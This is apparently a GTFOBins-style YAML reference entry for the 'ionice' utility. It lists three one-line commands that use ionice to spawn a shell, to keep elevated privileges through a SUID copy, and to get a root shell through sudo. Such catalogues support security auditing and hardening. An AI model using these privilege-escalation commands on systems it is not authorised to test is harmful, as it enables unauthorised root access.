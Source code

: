 functions:
  shell:
    - code: ionice /bin/sh
  suid:
    - code: ./ionice /bin/sh -p
  sudo:
    - code: sudo ionice /bin/sh
---
